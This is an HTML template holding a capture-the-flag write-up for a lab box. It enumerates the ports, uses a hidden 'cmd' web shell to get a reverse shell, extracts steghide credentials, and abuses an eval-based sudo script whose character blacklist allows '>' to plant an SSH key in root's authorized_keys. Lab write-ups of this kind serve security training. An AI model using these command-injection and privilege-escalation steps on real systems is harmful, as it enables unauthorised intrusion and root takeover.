 {% from "macros.html" import console, image, text, code, list, link, header, script, imageModal %}

{{imageModal()}}

{{header("Enumeration", "enumeration")}}

{{text("We start with scanning through the ports.")}}

{{console("nmap -T5 -p- -sV -sC 10.10.123.111", "Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-19 12:47 CET
Warning: 10.10.123.111 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.10.123.111
Host is up (0.15s latency).
Not shown: 88 closed tcp ports (conn-refused)
PORT   STATE    SERVICE     VERSION
22/tcp open     ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 58:2f:ec:23:ba:a9:fe:81:8a:8e:2d:d8:91:21:d2:76 (RSA)
|   256 9d:f2:63:fd:7c:f3:24:62:47:8a:fb:08:b2:29:e2:b4 (ECDSA)
|_  256 62:d8:f8:c9:60:0f:70:1f:6e:11:ab:a0:33:79:b5:5d (ED25519)
80/tcp open     http        Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: U.A. High School
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel")}}

{{text("We find two ports open.")}}

{{list(['22 (SSH)', '80 (HTTP)'])}}

{{text("Let us proceed with checking the website.")}}

{{image("../../static/images/cheesectf/000002.jpg")}}

{{text("While looking at the source code, we can notice a <code class='bg-gray-300 rounded-md px-1'>/assets</code> directory.")}}

{{text("Visiting <code class='bg-gray-300 rounded-md px-1'>/assets</code> directory gives us a blank page, which is weird.")}}

{{text("We are also forbidden from going to <code class='bg-gray-300 rounded-md px-1'>/assets/images</code>, which means there probably is something hidden in the <code class='bg-gray-300 rounded-md px-1'>/assets</code> directory.")}}

{{text("I use a directory scanning tool in order to uncover any hidden files.")}}

{{console("gobuster dir -u http://10.10.123.111/assets/ -w /usr/share/wordlists/dirb/common.txt", "===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.123.111/assets/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/images               (Status: 301) [Size: 322] [--> http://10.10.123.111/assets/images/]
/index.php            (Status: 200) [Size: 0]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================")}}

{{text("We find a <code class='bg-gray-300 rounded-md px-1'>/index.php</code> file.")}}

{{text("It's also competely empty. I couldn't find anything else, so I started trying out different parameters in the URL and one of them worked.")}}

{{image("../../static/images/cheesectf/000003.jpg")}}

{{text("It seems like we can pass arguments to the <code class='bg-gray-300 rounded-md px-1'>cmd</code> parameter and we get back base64 encoded output.")}}

{{text("Let's try to get a reverse shell.")}}

{{text("I used this command from <code class='bg-gray-300 rounded-md px-1'>revshells.com</code>. Don't forget to URL encode your payload.")}}

{{image("../../static/images/cheesectf/000004.jpg")}}

{{text("Passing it as the command to our parameter, we get back a reverse shell.")}}

{{image("../../static/images/cheesectf/000005.jpg")}}

{{text("I found a password inside the <code class='bg-gray-300 rounded-md px-1'>/var/www/Hidden_Conent</code> directory, but had no idea where to use it.")}}

{{console("cat passphrase.txt | base64 -d", "AllmightForEver!!!")}}

{{text("I continued looking through the system, and found a unused image in the <code class='bg-gray-300 rounded-md px-1'>/var/www/html/assets/images</code> directory.")}}

{{text("I was pretty sure the password I found was for extracting hidden files using <code class='bg-gray-300 rounded-md px-1'>steghide</code>.")}}

{{text("Next, I downloaded the image by running <code class='bg-gray-300 rounded-md px-1'>wget 10.10.123.111/assets/images/oneforall.jpg</code>.")}}

{{text("Now I tried extracting the hidden files with the found password.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
steghide: the file format of the file "oneforall.jpg" is not supported.")}}

{{text("For some reason it doesn't work.")}}

{{text("We also can't open the image, which is weird.")}}

{{text("Let's look at the hex dump of this file.")}}

{{console("xxd oneforall.jpg | head", "00000000: 8950 4e47 0d0a 1a0a 0000 0001 0100 0001  .PNG............
00000010: 0001 0000 ffdb 0043 0006 0405 0605 0406  .......C........
00000020: 0605 0607 0706 080a 100a 0a09 090a 140e  ................
00000030: 0f0c 1017 1418 1817 1416 161a 1d25 1f1a  .............%..
00000040: 1b23 1c16 1620 2c20 2326 2729 2a29 191f  .#... , #&')*)..
00000050: 2d30 2d28 3025 2829 28ff db00 4301 0707  -0-(0%()(...C...
00000060: 070a 080a 130a 0a13 281a 161a 2828 2828  ........(...((((
00000070: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000080: 2828 2828 2828 2828 2828 2828 2828 2828  ((((((((((((((((
00000090: 2828 2828 2828 2828 2828 2828 2828 ffc0  ((((((((((((((..")}}

{{text("By looking at the hex dump of this file, we see that it is a <code class='bg-gray-300 rounded-md px-1'>PNG</code> file, and steghide doesn't work on that.")}}

{{text("We probably have to change bytes from the <code class='bg-gray-300 rounded-md px-1'>PNG</code> file signature to <code class='bg-gray-300 rounded-md px-1'>JPG</code>.")}}

{{image("../../static/images/cheesectf/000006.jpg")}}

{{text("Let's try to use <code class='bg-gray-300 rounded-md px-1'>steghide</code> once again.")}}

{{console("steghide extract -sf oneforall.jpg", "Enter passphrase: 
wrote extracted data to "creds.txt".")}}

{{text("We extract user credentials which we can use to log in via <code class='bg-gray-300 rounded-md px-1'>SSH</code>.")}}

{{header}}

{{text("We check <code class='bg-gray-300 rounded-md px-1'>sudo permissions</code> of our user.")}}

{{console("sudo -l", "[sudo] password for deku: 
Matching Defaults entries for deku on myheroacademia:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User deku may run the following commands on myheroacademia:
    (ALL) /opt/NewComponent/feedback.sh")}}

{{text("We are able to run <code class='bg-gray-300 rounded-md px-1'>feedback.sh</code> as any user.")}}

{{text("Let's read this file.")}}

{{console("cat feedback.sh", "#!/bin/bash

echo "Hello, Welcome to the Report Form       "
echo "This is a way to report various problems"
echo "    Developed by                        "
echo "        The Technical Department of U.A."

echo "Enter your feedback:"
read feedback


if [[ "$feedback" != *"\`"* && "$feedback" != *")"* && "$feedback" != *"\$("* && "$feedback" != *"|"* && "$feedback" != *"&"* && "$feedback" != *";"* && "$feedback" != *"?"* && "$feedback" != *"!"* && "$feedback" != *"\\"* ]]; then
    echo "It is This:"
    eval "echo $feedback"

    echo "$feedback" >> /var/log/feedback.txt
    echo "Feedback successfully saved."
else
    echo "Invalid input. Please provide a valid input." 
fi")}}

{{text("It echoes any input we provide, if it doesn't contain any of the blacklisted symbols. We can notice that the <code class='bg-gray-300 rounded-md px-1'>></code> symbol is permitted, meaning we can use it to write to files.")}}

{{text("We generate a public key using <code class='bg-gray-300 rounded-md px-1'>ssh-keygen</code>, copy the public key and save it in <code class='bg-gray-300 rounded-md px-1'>/root/.ssh/authorized_keys</code>")}}

{{console("ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAILO60uNhTUNMEDTfn5f+qZZDXWg1JcMGtypKRMyIxnn6 kali@kali >> /root/.ssh/authorized_keys")}}

{{image("../../static/images/cheesectf/000007.jpg")}}

{{text("We now can log in as root by providing our <code class='bg-gray-300 rounded-md px-1'>id_rsa</code> key.")}}

{{console("ssh root@10.10.123.111 -i id_rsa")}}

{{text("We find the flag in <code class='bg-gray-300 rounded-md px-1'>/root</code>")}}

{{image("../../static/images/cheesectf/000008.jpg")}}


